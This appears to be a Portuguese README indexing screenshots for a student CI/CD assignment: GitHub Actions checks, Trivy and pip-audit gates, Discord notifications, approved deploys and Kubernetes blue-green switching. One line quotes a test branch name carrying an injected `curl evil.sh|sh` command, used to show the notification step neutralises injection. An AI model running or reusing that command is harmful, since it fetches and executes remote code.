# Evidências da entrega — Atividade 1 (CI)

Capturas dos pipelines de CI e de CD do grupo WJD em funcionamento, agrupadas
pelo requisito que cada uma demonstra. As da Atividade 1 seguem o nome
`evidencia_NN_assunto.png`; as da Atividade 2, `NN-assunto.png`. A tabela
*Evidências da entrega* do [README
principal](../README.md#evidências-da-entrega) aponta para estas mesmas capturas
a partir de cada item do enunciado.

| # | Arquivo | O que demonstra |
| --- | --- | --- |
| 01 | [evidencia_01_ci_checks_verdes.png](evidencia_01_ci_checks_verdes.png) | Checks obrigatórios verdes e merge aguardando revisão de code owner |
| 02 | [evidencia_02_matrix_paralela.png](evidencia_02_matrix_paralela.png) | As três versões de Python rodando em paralelo |
| 03 | [evidencia_03_trivy_security.png](evidencia_03_trivy_security.png) | Alertas do Trivy no code scanning, anotados na linha alterada |
| 04 | [evidencia_04_discord_sucesso.png](evidencia_04_discord_sucesso.png) | Notificação de sucesso, em pull request e em push na `main` |
| 05 | [evidencia_05_deploy_waiting.png](evidencia_05_deploy_waiting.png) | Deploy pausado aguardando aprovação humana |
| 06 | [evidencia_06_deploy_aprovado.png](evidencia_06_deploy_aprovado.png) | Deploy aprovado, com o secret de environment mascarado no log |
| 07 | [evidencia_07_pipeline_verde_main.png](evidencia_07_pipeline_verde_main.png) | Pipeline completo verde na `main` |
| 08 | [evidencia_08_required_checks.png](evidencia_08_required_checks.png) | Ruleset da `main` com os checks obrigatórios |
| 09 | [evidencia_09_cache_hit.png](evidencia_09_cache_hit.png) | Cache de dependências restaurado |
| 10 | [evidencia_10_badge_verde.png](evidencia_10_badge_verde.png) | Badge do CI verde no README |
| 11 | [evidencia_11_pr_corrigido_verde.png](evidencia_11_pr_corrigido_verde.png) | O PR corrigido, com alertas resolvidos e checks verdes |
| 12 | [evidencia_12_merge_bloqueado.png](evidencia_12_merge_bloqueado.png) | Merge bloqueado por checks obrigatórios vermelhos |
| 13 | [evidencia_13_pip_audit_cves.txt](evidencia_13_pip_audit_cves.txt) | `pip-audit` reprovando a mesma dependência |
| 14 | [evidencia_14_trivy_bloqueio.png](evidencia_14_trivy_bloqueio.png) | O step do Trivy encerrando o job com erro |
| 15 | [evidencia_15_discord_falha.png](evidencia_15_discord_falha.png) | Notificação de falha e de recuperação |
| — | [extras/sarif_upload_no_pr.png](extras/sarif_upload_no_pr.png) | Relatório do Trivy enviado também quando não há alerta |
| — | [extras/injecao_neutralizada.png](extras/injecao_neutralizada.png) | Nome de branch malicioso chegando à notificação como texto |
| CD 01 | [01-cd-rolling-deployment-sucesso.png](01-cd-rolling-deployment-sucesso.png) | Rolling Update concluído pelo workflow `cd.yml` |
| CD 02 | [02-blue-green-pagina-web-blue.png](02-blue-green-pagina-web-blue.png) | Slot `blue` publicado e respondendo no host próprio |
| CD 02 | [02-blue-green-pagina-web-green.png](02-blue-green-pagina-web-green.png) | Slot `green` publicado e respondendo no host próprio |
| CD 03 | [03-blue-green-switch-producao.png](03-blue-green-switch-producao.png) | Produção servindo a cor `green` após o switch |
| CD 04 | [04-blue-green-rollback-producao.png](04-blue-green-rollback-producao.png) | Produção de volta na cor `blue` após o rollback |

---

## Pipeline verde na `main`



**07 —** Run #3, disparado pelo merge do pipeline na `main`: lint, as três
versões de Python, o deploy em staging e a notificação concluídos. O *Total
duration* de 8m 38s é tempo de parede: inclui os minutos em que o deploy
aguardou aprovação.



**10 —** O badge reflete o último run da branch padrão. Ele só passa a responder
depois que o `ci.yml` existe na `main`.

## Proteção da `main`



**08 —** Ruleset *main protection*: os quatro checks obrigatórios pelo nome
exato e a exigência de branch atualizada antes do merge. O `Deploy to staging
(dummy)` fica fora da lista de propósito — ele não roda em pull request e, se
fosse obrigatório, bloquearia todo merge.



**01 —** PR #2 com os quatro checks marcados *Required* e verdes. O merge
continua bloqueado até a revisão de um code owner, exigida pelo `CODEOWNERS`.

## Merge bloqueado por gate de segurança



**12 —** PR #7, com o `requests` rebaixado para 2.31.0. Os três jobs de teste
reprovam, todos marcados *Required*, e o botão de merge fica desabilitado. O
`Lint` passa: o que reprova é a dependência, não o código.



**14 —** Job `test (3.11)` do run #12. O Trivy termina com `exit code 1`, e é
esse código que transforma o scan em gate. O upload do SARIF roda mesmo assim,
por causa do `if: always()`; `pytest` e `pip-audit` ficam *skipped*, porque o
job já falhou.

**13 —** [`evidencia_13_pip_audit_cves.txt`](evidencia_13_pip_audit_cves.txt).
Como o Trivy interrompe o job antes, o `pip-audit` não chega a rodar no CI.
Executado localmente, com a mesma versão (2.7.3) e o mesmo `requirements.txt`,
ele reprova os mesmos três CVEs. As versões de correção — 2.32.0, 2.32.4 e
2.33.0 — mostram que subir só para 2.32.x não bastaria.

## Relatório do Trivy no code scanning



**03 —** O SARIF enviado pelo pipeline aparece no pull request como três alertas
`MEDIUM` na linha 3 do `requirements.txt`: CVE-2024-35195, CVE-2024-47081 e
CVE-2026-25645. A faixa de severidade do Trivy começa em `MEDIUM` justamente
porque, com `HIGH,CRITICAL`, esses três passariam.



No PR #2, sem dependência vulnerável, o mesmo check reporta *No new alerts*: o
relatório é enviado também quando não há achado.

## Correção



**11 —** O mesmo PR #7 depois de subir o `requests` para 2.33.0: os três alertas
marcados *Fixed* e os quatro checks obrigatórios verdes. O que ainda segura o
merge é apenas a revisão de code owner. O PR foi fechado sem merge, porque a
mudança líquida em relação à `main` é nula.

## Matrix e cache



**02 —** As três versões rodam em paralelo — 46 s, 45 s e 43 s, que somariam 134
s em série —, com o `Lint` ao lado, em 17 s. Com `fail-fast: false`, a falha de
uma versão não cancela as outras.



**09 —** No run seguinte, o step de cache restaura 25 MB em 2 s. A chave inclui
o hash de `requirements*.txt`: enquanto as dependências não mudam, nada é
baixado de novo.

## Deploy com aprovação humana



**05 —** O job `Deploy to staging (dummy)` pausa em *Waiting* até um revisor do
environment `staging` aprovar, e a tabela *Deployment protection rules* registra
o pedido.



**06 —** Depois da aprovação, o deploy conclui. No log, `Target: ***` é o secret
`STAGING_URL`, com escopo de environment, mascarado pelo runner.

## Notificações no Discord



**04 —** Dois cards verdes: um de pull request e um de push na `main`. No
primeiro o deploy aparece `skipped`, no segundo `success` — o `notify` trata
`skipped` como neutro, para um pull request não ser notificado como falha.



**15 —** O card vermelho do run #12 aponta o gate que falhou; logo abaixo, o
card verde do run #13, no mesmo pull request, registra a recuperação.



Teste do script do step de envio, executado localmente contra o webhook real,
com o nome de branch `feat/x";curl evil.sh|sh;"`. O nome chegou ao Discord como
texto: os valores entram no shell por `env:` e o JSON é montado com `jq`, então
nada do conteúdo é interpretado como comando. Por ser um teste local, o link do
card não aponta para um run existente.

---

## Entrega contínua no Kubernetes (Atividade 2)



**CD 01 —** Run #1 do workflow *Rolling deployment*, disparado manualmente sobre
o commit `cbcaa57`: o job `Deploy to kind` aplica o manifesto na EC2, espera o
`rollout status` e faz o smoke test em `/healthz`. O aviso no painel de
*Annotations* é o Node.js 20 do `actions/checkout@v4`, resolvido depois ao fixar
a action por SHA, como no CI.



**CD 02 —** Os dois slots publicados, cada um no seu host:
`blue.todolist-bg.local` e `green.todolist-bg.local`. A cor da interface vem do
`APP_COLOR` de cada Deployment, o que torna visível qual versão está
respondendo. Nesta etapa o tráfego de produção ainda não mudou.



**CD 03 —** Depois do switch, o host de produção `todolist-bg.local` passa a
servir o slot `green`. O workflow altera apenas o `selector.color` do Service de
produção: o Ingress e os hosts continuam iguais.



**CD 04 —** O rollback é o mesmo switch, apontando para a cor anterior. O slot
`blue` nunca foi removido, então a volta é imediata e não depende de novo build
nem de novo deploy.
